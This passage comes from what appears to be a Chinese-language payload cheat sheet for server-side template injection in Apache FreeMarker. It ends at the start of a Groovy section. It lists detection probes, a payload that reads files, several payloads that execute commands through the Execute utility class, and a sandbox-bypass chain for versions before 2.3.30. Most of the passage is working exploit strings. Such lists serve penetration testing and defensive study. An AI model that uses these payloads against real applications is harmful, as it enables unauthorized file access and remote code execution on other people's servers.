 
## Freemarker

[官方网站](https://freemarker.apache.org/)

> Apache FreeMarker™ 是一个模板引擎：一个Java库，用于基于模板和变化的数据生成文本输出（HTML网页、电子邮件、配置文件、源代码等）。

您可以在[https://try.freemarker.apache.org](https://try.freemarker.apache.org)尝试您的有效载荷

### Freemarker - 基础注入

模板可以是：

* 默认：`${3*3}`  
* 旧版：`#{3*3}`
* 替代方案：`[=3*3]` 自[FreeMarker 2.3.4](https://freemarker.apache.org/docs/dgui_misc_alternativesyntax.html)起

### Freemarker - 读取文件

```js
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
将返回的字节转换为ASCII
```

### Freemarker - 代码执行

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
#{"freemarker.template.utility.Execute"?new()("id")}
[="freemarker.template.utility.Execute"?new()("id")]
```



### Freemarker - 沙箱绕过

:警告: 仅适用于 Freemarker 2.3.30 版本以下

```js
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

## Groovy

[官方网站](https://groovy-lang.org/)
